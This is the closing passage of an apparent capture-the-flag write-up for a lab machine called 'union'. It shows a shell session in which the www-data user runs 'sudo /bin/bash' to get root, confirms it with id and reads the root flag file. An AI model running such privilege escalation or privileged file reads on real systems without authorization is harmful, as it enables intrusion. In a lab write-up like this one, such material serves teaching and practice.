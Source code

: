 ## Root Flag

We can run any command as root, let's get that flag and finish the box:

```text
www-data@union:~/html$ sudo /bin/bash
sudo /bin/bash
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
fd73c7c952ca60ad21b71132697bdfd7
```

I hope you enjoyed that box as much as I did, especially trying to do as much as possible from the terminal.

That's another one done. See you next time.
